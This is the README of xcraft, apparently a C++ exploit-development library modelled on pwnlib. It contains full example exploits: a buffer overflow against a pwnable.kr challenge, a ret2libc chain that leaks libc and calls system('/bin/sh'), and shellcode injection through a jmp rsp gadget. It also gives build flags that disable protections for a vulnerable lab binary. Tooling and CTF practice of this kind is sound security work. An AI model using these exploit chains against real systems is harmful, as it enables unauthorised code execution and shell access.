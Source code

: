 ![Image](https://github.com/user-attachments/assets/5f5d8e34-faf6-4783-b23a-136d1a768cd6)

# xcraft

> **Casting HeXes - Crafting Exploits - Conjuring shells**  
> A C++ “pwnlib‑style” grimoire for reverse‑engineering and exploit crafting.

xcraft is your arcane toolkit for diving into ELF, PE and Mach‑O artifacts.  
Think of it as pwnlib distilled through a cyber‑alchemist’s lens:

- 🔍 **Binary Parsing**  
  Seamless ELF/PE/Mach‑O introspection  
- 🌀 **ROP & Gadget‑Summoning**  
  Find, filter and chain gadgets in a single incantation  
- ⚓ **Symbol, GOT & PLT Lookup**  
  Resolve functions and pointers at will  
- 🧮 **Bit‑Level Conjuring**  
  Endian‑safe packing/unpacking, cyclic patterns, hex dumps  

xcraft is still in its early chapters, but the forge is hot. Share your own spells (PRs and issue‑reports welcome!).

## Examples

buffer overflow:
```cpp
#include <xcraft/xcraft.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace xcft;

constexpr uint16_t PORT   = 9000;
constexpr uint32_t OFFSET = 0x6161616e;
constexpr uint32_t PASS   = 0xcafebabe;

int main(int argc, char **argv) try {
    auto local = argc > 1 && std::string_view(argv[1]) == "local";

    std::string payload;
    payload += cyclic(cyclic_find(OFFSET));
    payload += p<uint32_t>(PASS);

    using UniqTube = std::unique_ptr<Tube>;

    auto io =
        local ? uniq_tube<Process>("./bin/bof") // the code from pwnable
              : uniq_tube<Remote>("pwnable.kr", PORT);

    io->writeln(payload);
    io->interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

ret2libc:
```cpp
#include <cstdint>
#include <xcraft/xcraft.hpp>
#include <iostream>

using namespace xcft;

// rip at 0x62616162
constexpr uint32_t RIP = 0x62616162;

int main() try {
    auto elf      = ELF("./bin/vuln");
    auto libc     = ELF("/lib/x86_64-linux-gnu/libc.so.6");
    auto puts_plt = elf.plt()["puts"];
    auto puts_got = elf.got()["puts"];
    auto main_sym = elf.symbols()["main"];
    auto rop      = ROP("./bin/vuln");
    auto pop_rdi  = rop.find_gadget({"pop rdi", "ret"}).at(0);
    auto ret      = rop.find_gadget({"ret"}).at(0);

    auto payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(puts_got),
        p<uint64_t>(ret),
        p<uint64_t>(puts_plt),
        p<uint64_t>(main_sym)
    );
    auto proc = Process("./bin/vuln");
    proc.writeln(payload);
    std::cout << proc.readln() << std::endl;

    auto leak_str = proc.readln();
    hex_println(leak_str);
    auto leak = up<uint64_t>(leak_str);
    std::cout << "0x" << std::hex << leak << std::endl;

    libc.set_address(leak - libc.symbols()["puts"]);
    auto system_sym = libc.symbols()["system"];
    auto bin_sh     = libc.strings()["/bin/sh"];
    auto exit_sym   = libc.symbols()["exit"];

    auto new_payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(bin_sh),
        p<uint64_t>(system_sym),
        p<uint64_t>(exit_sym)
    );
    proc.writeln(new_payload);
    proc.interactive();
} catch (const std::exception &e) {
    std::cerr << e.what() << std::endl;
}
```

shellcode injection:
```cpp
#include <xcraft/xcraft.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace xcft;

// rip clobber at 0x61676161
constexpr uint32_t RIP = 0x62616162;

int main(int argc, char **argv) try {
    auto use_gdb   = argc > 1 && std::string_view(argv[1]) == "use_gdb";
    auto elf       = ELF("./bin/vuln");
    auto jmp_rsp   = elf.search({"jmp rsp"}).at(0);
    auto offset    = cyclic_find(RIP);
    auto shellcode = linux_sh_x64();

    std::string payload;
    payload += cyclic(offset);
    payload += p<uint64_t>(jmp_rsp);
    payload += shellcode;

    auto vuln = "./bin/vuln";
    auto proc = use_gdb ? Gdb::debug(vuln, "b main\nc\n") : Process(vuln);
    proc.writeln(payload);
    proc.interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

## Dependencies
- asio
- subprocess.h
- magic-enum
- fmtlib
- LIEF
- capstone
- keystone
- googletest (for tests)

The CMake script uses FetchContent to grab the dependencies and build them. I haven't had the chance to automate things via vcpkg or conan mainly due to missing dependencies there (LIEF and Keystone).
The dependencies are private to xcraft and their headers are not exposed to the developer.

## Requirements
C++20 compiler. CMake > 3.18.

## Building
```bash
git clone https://github.com/MoAlyousef/xcraft
cd xcraft
# configure
cmake -Bbin -GNinja
# build
cmake --build bin
```

By default this builds a shared library libxcraft, this provides better link times.
To disable this, use `-DXCFT_BUILD_SHARED=OFF` in the configure step.

The default configure step will not build the examples nor the tests. To build those, use `-DXCFT_BUILD_EXAMPLES=ON` and `-DXCFT_BUIILD_TESTS=ON`.

A vulnerable source code in `examples/vuln.c` is used for the examples. Its not built by CMake. If you would like to build it you can use `gcc -o bin/vuln examples/vuln.c -zexecstack -fno-stack-protector -no-pie -D_FORTIFY_SOURCE=0`.

You can use CMake's FetchContent to incorporate xcraft into your project:
```cmake
include(FetchContent)
FetchContent_Declare(
  xcraft
  GIT_REPOSITORY https://github.com/MoAlyousef/xcraft
  GIT_SHALLOW    True
)
FetchContent_MakeAvailable(xcraft)
```

Otherwise, you can build the project and use the generated xcraft shared library and the public headers in `include/xcraft`.
